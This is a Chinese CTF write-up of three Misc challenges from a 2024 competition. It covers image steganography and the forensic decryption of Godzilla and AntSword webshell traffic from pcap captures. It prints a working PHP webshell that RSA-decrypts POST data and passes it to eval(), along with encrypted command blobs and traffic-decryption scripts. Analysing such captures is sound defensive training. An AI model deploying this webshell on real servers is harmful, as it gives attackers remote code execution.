# 2024 楚慧杯网络与数据安全实践能力竞赛 Misc Writeup

**这比赛本身没啥好说的，竟然出现了这么多的原题，非常的难评只能说**

**但是如果就涉及到的题目本身而言，还是可以稍微记录一下的**
&lt;!--more--&gt;

&gt; 本文中涉及的具体题目附件可以进我的交流群获取，进群详见 [About](https://goodlunatic.github.io/about/)

## 题目名称 不良劫

附件给了一张PNG图片，但是010打开发现是JPG的文件头，因此我们需要改后缀为.jpg



然后再010打开，发现文件末尾藏了一张PNG图片



我们手动提取出来可以得到下图


发现是一张被污染的二维码，我们直接尝试提取红色通道中的图像，然后用PPT补上定位块


扫码得到前半段的flag：`DASCTF{014c6e74-0c4a-48fa`

然后我们再回头看那张jpg图片，经过尝试发现是单图盲水印





因此得到后半段flag：`-8b33-ced06f847e39}`

综上，最后的flag为：`DASCTF{014c6e74-0c4a-48fa-8b33-ced06f847e39}`

## 题目名称 gza_Cracker

题目附件给了一个pcap流量包，打开后发现是哥斯拉流量



然后在流11中发现攻击者传了一个类似字典的数据



因此猜测题目需要我们用这个字典去爆破哥斯拉的加密密钥，因此我们写个脚本爆破一下密钥并解密流量即可

```python
import re
import io
import gzip
import json
import base64
import hashlib
import subprocess
import urllib.parse


def url_decode(encoded_str):
    return urllib.parse.unquote(encoded_str)

def xor_decode(data: bytes, key: bytes) -&gt; bytes:
    result = bytearray()
    for i in range(len(data)):
        c = key[(i &#43; 1) &amp; 15]
        result.append(data[i] ^ c)
    return bytes(result)

def gunzip_bytes(compressed_data: bytes) -&gt; bytes:
    with gzip.GzipFile(fileobj=io.BytesIO(compressed_data)) as f:
        return f.read()

def decrypt_traffic(filename,key):
    http_data = []
    command = [
        &#34;tshark&#34;,  # tshark的路径，如果在环境变量里这里就不用改
        &#39;-r&#39;, filename,  # 读取指定的 pcapng 文件
        &#39;-Y&#39;, &#39;http&#39;,  # 过滤出 HTTP 数据包
        &#39;-T&#39;, &#39;json&#39;,  # 输出为 JSON 格式
        &#39;-e&#39;, &#39;http.file_data&#39;,  # 请求中的文件数据（POST 请求的内容）
        &#39;-e&#39;, &#39;http.response.phrase&#39;,  # 响应短语
        &#39;-e&#39;, &#39;http.content_type&#39;  # 响应内容类型
    ]
    result = subprocess.run(
        command, check=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    json_output = json.loads(result.stdout)
    # print(json.dumps(json_output, indent=4))  # 这个输出是用来调试的，可以移除

    # 遍历 JSON 数据并提取字段
    for packet in json_output:
        layers = packet.get(&#39;_source&#39;, {}).get(&#39;layers&#39;, {})
        request_method = layers.get(&#39;http.request.method&#39;, [&#39;None&#39;])[0]
        response_code = layers.get(&#39;http.response.code&#39;, [&#39;None&#39;])[0]
        file_data = layers.get(&#39;http.file_data&#39;, [&#39;None&#39;])[0]
        try:
            http_data.append(url_decode(bytes.fromhex(file_data).decode(&#39;utf-8&#39;)))
        except:
            pass
    for item in http_data:
        # print(item)
        if &#34;Antsword=&#34; in item:
            try:
                enc = re.findall(r&#34;Antsword=(.*)&#34;,item)[0]
                # print(enc)
                dec = xor_decode(base64.b64decode(enc),key.encode(&#39;utf-8&#39;))
                dec = gunzip_bytes(dec).decode(&#39;utf-8&#39;,errors=&#39;ignore&#39;)
                print(f&#34;[&#43;] 请求: {dec}&#34;)
            except:
                pass
        if &#34;e71f50e9773b23f9&#34; in item:
            try:
                enc = re.findall(r&#34;e71f50e9773b23f9(.*)792dea3a7ae385ca&#34;,item)[0]
                dec = xor_decode(base64.b64decode(enc),key.encode(&#39;utf-8&#39;))
                dec = gunzip_bytes(dec).decode(&#39;utf-8&#39;,errors=&#39;ignore&#39;)
                print(f&#34;[&#43;] 响应: {dec}&#34;)
            except:
                pass

def md5_encode(text):
    return hashlib.md5(text.encode(&#39;utf-8&#39;)).hexdigest()

def crack_key(key_list,target_hash):
    pwd = &#34;Antsword&#34; # 哥斯拉的连接密码
    for key in key_list:
        tmp = md5_encode(key) # 明文密钥的MD5
        tmp_hash = md5_encode(pwd&#43;tmp[:16]) # 响应中返回的hash
        if tmp_hash == target_hash:
            print(f&#34;[&#43;] 密钥爆破成功: {key}&#34;)
            print(f&#34;[&#43;] 用于解密哥斯拉流量的密钥为 {tmp[:16]}&#34;)
    return key

if __name__ == &#39;__main__&#39;:
    # 响应中返回的hash
    # target_hash = &#34;e71f50e9773b23f9792dea3a7ae385ca&#34;
    # with open(&#34;dic.txt&#34;,&#39;r&#39;) as f:
        # key_list = f.read().split()
    # crack_key(key_list, target_hash)
    # [&#43;] 密钥爆破成功: Antsw0rd
    # [&#43;] 用于解密哥斯拉流量的密钥为 a18551e65c48f51e
    decrypt_traffic(&#39;Crack_me.pcap&#39;,&#39;a18551e65c48f51e&#39;)
```



然后base64解码即可得到最后的flag：`DASCTF{M0Y_W1sh_Y0u_LogF1le_Usg32WEM}`



当然也可以用CTF-NetA一把梭，导入一下题目给我们的字典即可





## 题目名称 特殊流量2

过滤一下200的数据包，发现其中传了一个zip



```python
&lt;?php
$cmd = @$_POST[&#39;ant&#39;];
$pk = &lt;&lt;&lt;EOF
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCfhiyoPdM6svJZ&#43;QlYywklwVcx
PkExXQDSdke4BVYMX8Hfohbssy4G7Cc3HwLvzZVDaeyTDaw&#43;l8qILYezVtxmUePQ
5qKi7yN6zGVMUpQsV6kFs0GQVkrJWWcNh7nF6uJxuV&#43;re4j&#43;t2tKF3NhnyOtbd1J
RAcfJSQCvaw6O8uq3wIDAQAB
-----END PUBLIC KEY-----
EOF;
$cmds = explode(&#34;|&#34;, $cmd);
$pk = openssl_pkey_get_public($pk);
$cmd = &#39;&#39;;
foreach ($cmds as $value) {
  if (openssl_public_decrypt(base64_decode($value), $de, $pk)) {
    $cmd .= $de;
  }
}
foreach($_POST as $k =&gt; $v){
    if (openssl_public_decrypt(base64_decode($v), $de, $pk)) {
       $_POST[$k]=$de;
  }
}
eval($cmd);
```

然后翻看后续的流量包，发现主要是蚁剑流量，结合以上代码可知应该是用了RSA编码器



可以使用CTF-NetA导入公钥后一把梭







发现这里执行了一条命令，把secret中的i和7全都替换成x后的内容告诉我们了

同时它也给了我们修改前secret的MD5值



然后发现攻击者往flag.txt中写入了一段AES加密的密文



因此结合以上内容，猜测出题人需要我们还原密钥并解AES

我们可以先写个脚本列出密钥的所有可能情况

```python
from itertools import product

# 替换后的字符串
obfuscated = &#34;xx34d619x1brxgd9mgd4xzxwxytv669w&#34;

# 找出所有 x 的位置
x_positions = [i for i, c in enumerate(obfuscated) if c == &#39;x&#39;]
print(f&#34;Found {len(x_positions)} x&#39;s.&#34;)

# 所有可能的字符替代：&#39;i&#39;、&#39;7&#39;、&#39;x&#39;
replacements = list(product(&#39;i7x&#39;, repeat=len(x_positions)))
print(f&#34;Generating {len(replacements)} combinations...&#34;)

# 生成所有可能的原始字符串，并保存到 dic.txt
with open(&#34;dic.txt&#34;, &#34;w&#34;) as f:
    for repl in replacements:
        chars = list(obfuscated)
        for pos, val in zip(x_positions, repl):
            chars[pos] = val
        f.write(&#34;&#34;.join(chars) &#43; &#34;\n&#34;)

print(&#34;All possible combinations saved to dic.txt.&#34;)
```

然后可以直接用PuzzleSolver爆破AES，得到密钥：`i734d619i1brigd9mgd4xz7w7ytv669w`

同时得到解密后的明文如下：

&gt; Delta Alpha Sierra Charlie Tango Foxtrot Three Foxtrot Delta Three Four Bravo Five Nine Dash Four Echo Nine Delta Dash Four Three Nine Zero Dash Nine Two Seven Bravo Dash One Three Four Six Delta Five Three Six Four Delta Nine Nine

然后我们把除了数字外的英文单词首字母提取出来，然后加上数字即可得到最后的flag

`DASCTF{3fd34b59-4e9d-4390-927b-1346d5364d99}`



&gt; 当然，这里除了用工具直接爆破以外，也可以写个脚本去爆破MD5，但是要注意末尾换行符的问题

这道题解完以后，自己也是尝试了写个脚本去解密之前那个RSA加密后的蚁剑流量

但是不知为啥里面有几个数据没办法正常解密出来，待完善。。

```python
import re
import io
import gzip
import json
import base64
import hashlib
import subprocess
import urllib.parse

def url_decode(encoded_str):
    return urllib.parse.unquote(encoded_str)

def extract_data(filename):
    http_data = []
    res = []
    command = [
        &#34;tshark&#34;,  # tshark的路径，如果在环境变量里这里就不用改
        &#39;-r&#39;, filename,  # 读取指定的 pcapng 文件
        &#39;-Y&#39;, &#39;http&#39;,  # 过滤出 HTTP 数据包
        &#39;-T&#39;, &#39;json&#39;,  # 输出为 JSON 格式
        &#39;-e&#39;, &#39;http.file_data&#39;,  # 请求中的文件数据（POST 请求的内容）
    ]
    result = subprocess.run(
        command, check=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    json_output = json.loads(result.stdout)
    for packet in json_output:
        layers = packet.get(&#39;_source&#39;, {}).get(&#39;layers&#39;, {})
        file_data = layers.get(&#39;http.file_data&#39;, [&#39;None&#39;])[0]
        try:
            http_data.append(url_decode(bytes.fromhex(file_data).decode(&#39;utf-8&#39;)))
        except:
            pass
    for item in http_data:
        try:
            # res.append(re.findall(r&#39;u51aea36fa19a7=(.*?)&amp;&#39;,item)[0])
            res.append(re.findall(r&#39;y21db7ea65d36d=(.*)&#39;,item)[0])
        except:
            pass
    # print(len(res))
    print(res)
        
    
if __name__ == &#39;__main__&#39;:
    extract_data(&#34;http.pcapng&#34;)
```

```php
&lt;?php

// 常规蚁剑的马
$cmd = &#34;h2eawHhLRnx7KWCqV3rBIjmJ5/GCJPm3cZbETPlEd0o5JjAKC2tSA822i3h9y0LuBBvRG&#43;sKCJYHn88W9zN&#43;yPVCv2gRqgyVE/QJuq/JnCODkiyAezjloJazIWcsiJ7kE7GV7YtbRn09GOPguW5GFaT7Li84M9yazmwQFRJpQ5M=|Beetr&#43;oJLoHbUHuweoAVksPiaO3PcFH6ilEdmcarMjAoxWXN9KsZZkTUdtuJYUdKLy4BzjBg/rAr9PxnyYu7BZcK5ntv/gmZG0PgPoQOgIh8a9TbMlTZVsIA7Sz0fHj9VRGg6BTyqTZXt3uUUsLH9mVXy4nLVW52wi08VBFzODY=|HmeSOzgXh79ziUTkk85sSv52&#43;Nrdd&#43;tuXWjwjdho0vzYwR2YGIz20UTcDDewNU7LlBQyUml3WGngw6yOXcOVUcIKmHF2kW986YUoY9mpjgjJe3YQdu6JMUZ0N0tLqCsBSd99rsg&#43;zp&#43;78Gm5kfLKHP4XhbNwb8dEXCXgK6tPvr0=|NaOV1tJpl2MXnWfZYjfG1&#43;KvGBW&#43;FUwPQk3JN9BrXE8w8KtD8tY&#43;GfZjLRSHPUjVX5epljKh7nJxokxA7gEWagEh39x4/Glyj9TQqauUwF2Bo8HHfzwrvIc5FHSUZdaQF3xnTiMPrtfQ6rRx4cgAvUQBk6upiNDmXnozVv0vOFs=|MFMsXUEetMcbIc6IGB1vl&#43;GyPKRdvDlCn95CvaCdw4G5rb0it4&#43;2gDn0DcQ14pDZR69qONB16UMcu/Gz5jw9NHWqCxUiltKjvFCxEthYLM4tnppiEsPAG0T3NsOLLK3xHNrPIW09WlZ9ZIfhPNm1YYADWYPHlayQdzPZ12sKr7g=|f7VRsuQvqz2tbzk/9hA3c1t0ESWpManDrKqVxDvgwunEoOo20Wpl1mxjLWdAyjo7SQn8eL2cVQSiMONWUODvc4G2uYJm6c9/&#43;gdQxn5mYxA4jcWZocMBOMJ&#43;AHUFvtI1ym8UCqVTsB&#43;ydS9qskbuMg68cy5&#43;ThvcfanQO1SDlT8=|SEnL5fHjjuAVHAuculmhZX0s6SixAODECGeRmhWoHFfQsRT/hgBznHpccS7Q2QOJ72HtRe81d39G/Mi0m/CHHPsR0RA&#43;IP2GyG39G1RzdaT&#43;AAZPJPUBReOe1Eu2yHzmZLNop&#43;9lmPQqZ8nSppAcwgvGF5vBslqWnBwIVaG/uZI=|iavTDinsgbtj27o8vLrzXKYGWPhp0Fg3wdGjM/F8WK&#43;T3vw6vU8kwZmLzygy1bwgTCaLYh2wtQWQV6FEHbRPZXbWn4zv5KS9ztBUHC9sFXN73yHOSINCVyJ8fcX3oausUGVY0uaQ&#43;qG2u8Npz5nnrvnD4gp/HlWaf4BrfAIuy3k=|bYRlYSDnI1UCobtXIKO&#43;kDylK/Gi8npU9PIT/78PbZ8nKKLUOjuknNrPJVEfFcPnQVg4tWJtV6hxTEiJA1WuYjChv1aO2VzN7kV8d9EI2VHz0i&#43;4MpVWdJ4fzy7A4R2J4lbxLIfxIsDbDCJnTIAVGVzrx2X/E7cfxMu&#43;02PUXAE=|A1QoYQpEtZf6hDzXeLKA40eZBLkWnUyL6lblwpnnmBMrd471ZbcdXdB8ivKala29FSItqyp/7S7nFmO01nKbgzmNSo/VhPRqyvKj0ct&#43;eoeOmIYT4oVKMOz99hhdCPqwNnIr9UvJxlCynmKBWspu77QuQEjq&#43;o4blUewBzHxTlk=|bBT8U3o9EbKnllTikz73DxoaGkDnprQqI06Ia677tWgtcB5RK8krbYX7TzSbsHQCvSkvfILxvlSSgdapMOidJBQtVTM3y4UiF8fibXjPRRi5PIYm/mkWzkW/Q1Z6mQ1cP44g24lKOotMH8gLibhe9DVU8jl3BpWCgFT/nq0v5kk=|nXZj20SL/5bPZDd82hH1uULXoZAsModdwtlYZgMyV4Y6GqTkuLAsJTuBEa5TA3RWhHH/pH/vR6pnGYtHyNQSc0mekqu4F4XB8/9OmpZrJCXUzv91pqTxNIELlX42sLxsPHu7OnIt2P98o3UCjlLNPuJ6guBp9tONy0Pex2j/LcM=|Sp/QguTJA1qCrHk7IUNk1Hh9pOqe/QMjt1HZv3FTRbTwYyR0d5IKWiiHciaPQGvJ2OIWMn5SHYAz42w1Gt5iDY6zp3vEgOb9Cims2ngBVY1JVuGH9mi3XKq4dLQhMVMiKhKxShuUU/M/E0qPDLeL0U6vkCH9zXyWKpZV151H92E=|PqtAe52HlzKOb8YmtmDn4UhCLJrmaxjRS253NQQ39x0G4XDPvj59jGRFaohiC1f7vIKBgkSw5UqTekbckWUAwWm4kjPQMuaQc22zAwq9YobvEZIptgKodctfAz8t8QOpJq9g7j3d2xrpt3Nm1vuxQWTk2yzvpKBab3FlL2XRxTE=|fGlqkiNMLzvrtLpBxJhbxZkJn8kQRn/fB/vIcx9AL8JzKzTb2&#43;prArqT4hbPIk1m8HaQucLWFl3XwDclDnDcN2pM5P6zC7OSX/8diNmYISEprNn&#43;HoU4KdJSNF3t7VyyOia2&#43;1QwMrNvXZtm3Eu9chjaajLe/cFsltmPdCSh5cg=|VRG6JvDeq7IS262EPLpgPARWVUSIUheClb/7dxD4WkuTdfY1yzDVy4Oo6rBzylYZ8Z5F9BCmJ0IP6Joc6cw7xgnBrcyxnC2AOGy4LreJjXuOJs2mAo73ZMvMfQ8WH5DoFLqDO3SGmz9GEKVNlM3Y2MygcvBXvF5JYDURwR18eas=|U4xyVXjBSylhP9bFiDOHiL556yRoTasQgyp8WPfNGxFb3YxqSPUiIeMDGptHTK&#43;0/9FuyIHqDKefi//jGs7RBji1Tg7B0aZTDZKjctclLTGVZSqsgcNYlba6vOkN7yTI7TueQ297rrsuQTBxQTUn5HYxTcUffu056FJa94M/oZ8=|THCt3czpIE9qw6/ArCLrRPiBc20CWrblwuaaNo0E3fz9DN7AIUS8Cd5IrXxbZgG5PjHBrUAO55I/bcGgJGAt48fT8U8tQRjl5vzhdD9FFzooiklBW52fY4OH97m8jfwNzXsqgfdY/SYi5Lo3GKI1de/x/yvQagB5Ybl0d76d93U=|QDeXdRwsT2bIYQK4ekfKAIm38Yig8C9JvTUlGHSaM5yBuisPXb1UEiAZrDsUEvxxT4PCuvFOSxqYVke1RAc8dqbPoPrfzTWKmGKPlEtplfByl0uTEBzZmdCMprSgz9wwvsb38d7HIeqEiq/mAoJq3hZPLlCsd7L3v&#43;lkg5VJXPk=|B&#43;8CfN1XcQteSc463LxKmpNNxN6F18P0egHIwZyMyHhzRnpLX1pFiidkvU&#43;0o3FVLb2IKqVyEwqfUHyTdxqc0poDpNyoJTlXFAaCDZ95RyDCV/h8NvHdBzZcc9IrK2YtsIxxZj3ZqchzGRmKWfbQXsQYk3QctIsmG5shQ9d6pTU=|RJo/Kc9qplyP3cVRP5X8tW27IZsn3&#43;6Chtw4xMOCt9qt58T&#43;e919ULD&#43;EvHaBSxvtcWfd6gRokMRvBZIBRsghO6AcsDja0ngelhJH4Wg1no8DjgCfpgK9mpEJKvuGp56shWFu47MCNjZNtbUdnBCpeIh&#43;kPiVhN7WxL&#43;pG4Futc=|Q&#43;tVYvjbBNn0Rjglwa&#43;5R7QAzOE/XMqi0iLrnQrPcJsq0kRfx/FXCMAmtEhnWIXWOpBnIoVxCt8OplUo&#43;7nQrBJDR&#43;VJsvFiCLDgyythNFsLeQiykqzgy0Q74SWUJXM4ji7ZcPkiu/CN0s5D1sd8C1GirqA5sIcO6aBgHG45U0k=|Td/&#43;JRmOQuiupcXahTQso&#43;IpvlzCDinys4KlStXQuEoSilj5LcHplrQLMVrdX0&#43;wfWMgx1UqJdtW8&#43;q&#43;oMaFkSLr6oqwVYNOOPUe9wbvGXfuVdx6&#43;BmWAalM66FupJ0glqjM&#43;qbw2CuSwNy3W1vI9gwvD1Bdxd5k0Zet5GDy3wI=|WBTBqKxmyW18sIyFFpif0V3XAWC79MysexheF02zHYoDpFQ2lEjfFmWad532nywbE1FGOvY6SJrNXeTV6&#43;9&#43;Zri3ph5U8qwx0PFS8UXrVbAsHqaTx4xbYrAnGMFL8q9ZHttI5VZP2zUzZjobxZcl4RgeinaoK5sk3u3ru1by/q0=|mwvK/wujsiQIbYI0zjc8x3Bqjp&#43;muCrVLSlFknhOqK5x/&#43;dIhFRVIVlQ4ETEYiwfgzXf1m&#43;fO8JNkxJfQwfTBQ85mwZASTNpO1Xr8x4f66cATJIEcDX1ltK/9FBw1EhOnef8/j1rdP/noawgBDd5ZYns/A2MnA1vfu/dxll5u4s=|HZ4EiIj05rT3QiggJVMXkk0BJb6yADK9XYOvUX8GjRn20g7B&#43;f9IZAw8PQ&#43;A6JoCwZBZRD42eqAAQEv5Yt2UJi2x8wy3vykxgCEXm169eueBCMwaIKDUgAIw4o0G9rGWWB/WG03aAg4C2Z9vRw1Yr6qVCq4xAdWbHUNFzuARhno=|V2bIlwe1JEU7LgqJuzxHAm2phIKYK6ypzYMuconP43W&#43;eOV0eOi4jQfMpcuiF9LeTbvZeDeAbm683aTi0X2Qq2kZhNzLd3WNBnT7xyBIR9kaDSWofZ6HIFcrW&#43;IG6dMrJYCxSXLtDZqHNdHAcUY8E/l9lfASjaUaaU8bWrbNmQI=|IJDh9f7uQV2Mvu1Uo&#43;68ipx7S9jA5lf4BMfCImJA&#43;vcUt5oQYwiUdxB72M/fx844PzmobSc0A8xdp/HiMXnOJGn5DowHTABsxME8soJiElC7M5vIRihftrgpCbzAK0VhZTk7e3XMTc6axYURK9/eiYDKVJ5udgTSDwimGiwSCYk=|f9r1tXu4LmTNe56o9268uyxhzwuyqCXH4xhcwb3vi4ugf86czIe1EtrssNNjbO&#43;2uzYpO7XeZf72RpR7uQJ6Y5QV0zdiBTU4YiIp&#43;dGFW6cJSLVPGiEOvNY7JnodOG5/g5u932zMf7Euew/wGAQ2YKK9O/UgsyYIyHn5j0m7WrI=|RqgLwn8A7kjWT5sZTifN&#43;YFXS/YB7N0VMBAt&#43;cJE1Uokut0q4LXrEKmz4Sl9a1TyWbRhYCiH5DjMjOJsboWnCrUw1WId2NgxtJH8d4XGnYoHLj8Mq/vzt6xwoG0mg0y9byhGTqMEZmDVidpsjC6spVEU4&#43;/GvYQXdBF7v6jB7lI=|TXW7LwACtczas6FJAOB05GqDIGNP8iDoceCeP0esO5VsXLlehxFJtGJ16fZSUBXvviR606X9FAZZAiXlf3U3HknQQ8RUq/fwRzjDu1W&#43;gMGFSppdO6SS57qDET4f25y4dpyFl1nOAYvfIsv5Oo/gQMvjWgXtj/46x5fgc3dMa2M=|bGiI0Mqq0oz8QnjKTn64VBzunMSZq81hzJozM1ef0zDF532NFj67mkglIYOtgQgrh7mqLK6uAau/p513t/C4IMuW/13gfqLa/6Jh1OGXipq658vS6XdEzsNWvRvCba0tUck9mITZ249Ae0od2cs9/WWJT0iHzwj&#43;qWW&#43;UwpFnc8=|etD4pZkOMmz8YUMJV/3dTdMeVD1&#43;jay5bmG4K&#43;BRWQfc3lEmIkRoevVvGXlx/xR7yuOWi6BqDGRfukiL/jk9ZIq4Bvae4&#43;xe7RVIV128cYHTyc5Cv4J51xvmLRRRjrxz//xkmbT/DirWeH7ZTqPBB1ZED29rcaP4vVhzrhyJgDc=|gxfE/qQXrUKHECoR5y2qC2lOoYykAVHIRNIliW7nHg66S6CGusyA31vRU6hXWOCwIq/wGtWO3&#43;fC8imf7zwC2S961RBKm/o7478rpQ/n0lC8zWH5qVNfM3anzHtGPY&#43;q&#43;RgrsN&#43;LsbROx5hH0U&#43;xxWqC&#43;/di2&#43;o3ah4FTIcd0To=|Me7Ksjjy7u9YMESGH3R59NHnV4YkA8v5YMkNqcKOxa4BESV&#43;enfpR/Z&#43;qRVQ6nkNwppxYpmpiEVk0eAlHeZ2a/AGkWfbYUTjDQ6IPBs&#43;sqGUcxoRB4dtPWbSKpBwMnr8lZU&#43;wYmW2w7x1xwiQZD3s&#43;kthZrSI1jcLuyR3Y6GK5c=|ERFOVsAH4EDxUTaFsfVoWUR/cuhu74J5kUb15M6nPVol2rRBD4L5&#43;Q37mAmJoEwFoaPGmSa9wd8e/7PgL9apyqOivb05zn4Rtkiba67a&#43;cIjUqCzNlh&#43;zkKzkl&#43;CZNPsXAP1rdHUyvRiCyqjlOjtzLNn0jOyEajAwLmE2CBJGAc=|gFSDV/0I2ixHtRdZWJvFGYvgNICrgnslhs6NAKSnst8FOQBWPwRV93cVjavig2AutuQ6f1ly3ugdYlqQcG3ZkQqVxw4kdyKT5dYD38UDD5pU&#43;u9naY8Q6DzZW&#43;d3FwJcwXd5o4QCIJz64q&#43;ubhz0P/yiVAmmiXPTOjX1&#43;WDLFWk=|IgEw3yChdxQfBdMi&#43;XqRnTJFHL1W49SVD4vyaNqM/g7WERyIlvD0fEAc/&#43;AmKm/mAij8rVFUuC4dR043Wlp90a40qogV97saleDB5BOs9UxWxq3GOqaBOvecKpG7ZNT04j2N4w&#43;Tit9fgFU2r5YP1y1Mr3cSyGBlk/PxABofixI=|DvFVMgJbFZIA3abwm&#43;zkRbsiuKdql8fvDWCpnZ5Ks4e5JeGeilOiTFhHmNQvG62DN1pxZGKp8uiExsRxfIi7U3w5rBH08YAbGyNiGyKTtsTeO4h6IWw5E/Ca0orhBTy1gbUsIG4r7O36iXWbTmP1Vweg9lyVxX&#43;25699vIh01UE=|KqJNbSFTKOR5fAXuvCZfJ1B1zCwwrVsBhaH0vsixgoCGO/lIYctWhkvbQikotvhK/zbbCLK99j5KvU1u4iCMHOW50UE8tAME7ZuYqtcB077DiuVHo8rRMdUjvSaoDodTanr1TiF414Rv1R3evWxNWZvseHHSGdLMvAAXrSZJIEk=&#34;;

$_POST[&#34;l6eca85c56d82c&#34;] = [&#39;Zn4Zj/XIusIg6hgVKeAyHg5YkY0aHpA&#43;sClHd8bYyJwJQWeTKg9O0rWjx4uyNAp3lDxcubak981Mj4z7pGLLMcARQVssILHX6HGKnJoWkB6cNCbfbwI8YqUC1NgEsj5iQtfdIDRCmaczzw6/m&#43;tlohMFoQSrN8SASUQ5FrURdq8=&#39;, &#39;ScFasYUe1rnzXnGAXtEEQ1HY5nhBfdQ2DCBkSMc0/UvE1Pw6Gyhlbe9B8m9Sq7H1QXMeFEQw7C/MHVIUFfKwFCEaIeScKV0uwDZAQ6aPPaVlx00zWnp1RLvv4fvh9qMt32NEVK6pH4l&#43;tTSUtGTbjKNM3AHJIPigWgJdxiyIn&#43;8=&#39;, &#39;OGIDiLqt55rKrqDCWBal9irWhxdFoTcR/yBdMpuHY6KwQqg40zQb6wLJ7KvMZSWJfI4EcMIchta0oLIaxUy0Mtn6MvUVIo1Kg2OoFyAS2DPlt/2vwN8lSMDmfWSdyv&#43;oAGyE2H068KoB8kX35Wn&#43;LEF2IEMDaOzx2azojkXycXU=&#39;, &#39;AQMG1moPhYMGh04jYOhrxI389fD7Er&#43;8lkP&#43;xa4yLZyQk6Zp2DgI/2Mzt9sDRvVRrDm80dzx16o2zNkRiKRAJrK1RQuMl4wuFph5meAoCt&#43;aDe6ct4iX3DHkEveAVikjvIhYg4hQMMwYFZ7t&#43;uP5wtdLs8f2mBCaDqhOCq7OIlY=&#39;, &#39;Mriexd4PpivbbGf3p4ALnXtkLufDDcDjQL/y/XLJcwTEsebSlUrSvCR59KZOD&#43;PqVxYY5gxfYPGzoIqCrIsEsMye7OxIAFFn2489rfHzRai3xKJKG5Bj19HnMgX1BPyrypDbKkleEDlkYCYHgE9nH/4CFPXQr362Kxp5TeiMhd4=&#39;, &#39;Js7EXmASNJv7vhWlQOjg2c1fypN/R&#43;U/o8xXOY8/SVCmUuz7QRqcc52Qxof3SFD2XxzSRTqnHZdIE27tp5jV2UGHi5Z2jc&#43;gj8UmqTE8VuP6X6FOhUqGC96prfxmbSCMkA/e8mtJsJXiGhjHkRvULnBoTzRlf7/PQaGmnmoKEzs=&#39;, &#39;D3AolWpp3tEoJI&#43;zfdYBfonRED1vlE5qh6sJug&#43;wCk9r7PQex1dsFHzMb57&#43;ogMFaXk3Gz7fBnr06PWca6xYzdPHHdVCNO2p1P60sFRS7mvLRs&#43;CBotiEGd9U4ChDQ5yLPO96sSWOo5iVU3rZPeOdNUZW3yyaNZ8r/IynfPMsZQ=&#39;, &#39;mTW7v54Iy44qnOyJeXu/oCFVaKOBj06eLi5zxPpe073AO1jn5nwMBR0UK7Xa/bG5NlBfplS3Y3Ll1ya2mvOe&#43;4LIRKgMOXRGejdMb2S93IbCXPqp7XVNrqcrXr95SkJeeEk&#43;zktgD16/WpixUCgs0GFYmGAKSeGaYmdaQ&#43;sDKmk=&#39;, &#39;SUwTv5sLFChoUtykcBW1sqi/4Len4YEYM&#43;3VpNR1xbfHHSThR2jjK0TeXPBk9vLVzuWPIpg7ZRAQgoi&#43;OoOeDjoEzmYMw0nuaZvjw6GKZrH&#43;UQlFBZuVZ248ZdvqH1zQCX3tTWM7NxGnPKNqD7JEjS&#43;ixsCGk5Ea7gb88yI1Fz0=&#39;, &#39;FNwwTLPWXutIJwqnDwgluIv/Ies/71C8H&#43;UUuG9KuULzXiZYNlbOSfAZu0hT&#43;YD6B2cVN3nA4l5B3zDYU13UiQh9LewNC8KUnBlOPqhZPC57iiXJBETg&#43;FDo9UZswN7JkM6FaZp1osmCtBtP&#43;uPbs9op/nACWTqRDlc3AzmzhC0=&#39;, &#39;g/cOJmEmrg1046z5unyLSfag901Dwbiog/06TTgBzbZCxBYzqNMiLpj3q9WzzrzfZpv8Y1sPSwAhbW&#43;6ux7&#43;bH6d&#43;QbgfJK5I5Fxsd/9yweOa04JhWieCRizU8uMm3oWt2ZrvdThgyO0gymm7UTIqeMz8jEnUDh3E7rGI3PcLyI=&#39;, &#39;DCAfid4xuUbZvB52YRqDOJ1eZ9oxZOWjUgT5MgDZ8ATlt1kfGrRF8xfu99takkdl0pS52cxzUylyotJFDD2XZ&#43;yDJIM3T9eojj0/o1J1umNxa8oW/rGtzp&#43;dMnGiofpjaaHxxfjwDztbglYPvC4MtsxMxm5EIVqvuWAXDbniCt8=&#39;, &#39;PtgveYLNMoPTJbdMLIMUfcKG5xHEuH&#43;0woXkCO8vF25EEH9Kt/TT2M6sIEYvhKJX&#43;geysxkOFMjDEucKQeEPV3E2Xtkzu57QR4yLDnzq07qmYYqBsAXZD9Thon16axBvQdwJ2R21BKEIvfucBKE7lR4DL5idxXCQMZseRh/dFNE=&#39;, &#39;R4Te1rFFngYZVODMcwZ8foyk&#43;U0A2Rs6AhwXKI4duiECWGcZhbDKyHkOstfggZceBlMdLDO7zw1C5HqMFWkvDOqawLZL8kl&#43;XGnGoRKZaqZut27l3fB20eW&#43;X/2jk3tgS5XDMkmiTjWfJ0Fns&#43;bpoDZULXO3USMSnrsPy/zeosM=&#39;, &#39;QhGblZx2qZpBWU1WNGSb4In1lIEydg4qOKTIDgdSx3jS4YOfV58sgOHcaOzoZK9vEqsKbqjJl&#43;MGShmilwuwZFkolnb73hKAR74RXodHEUonGJcZMpWxanvhe8AqjBUmt2AtIQ/l9fu39l79djKnbw2v5OoBMMSHRomf9iCIgJg=&#39;, &#39;RsBFWXfFGbe6QNPs&#43;Bjb2vgWKS1cQ1hCQdnjbfMWXRIlln/z9LNz8TWw1OTY0le8pSKil15yyWVHWu8Z6AgwgGcw/fhHy2JN4m/LsnAtWUR4ae/CLeZxCGs2PMJTI72qAUkhQY22g/4P8pKZN9UuzS9J7o1AmTuBGIULYNOpOrA=&#39;];

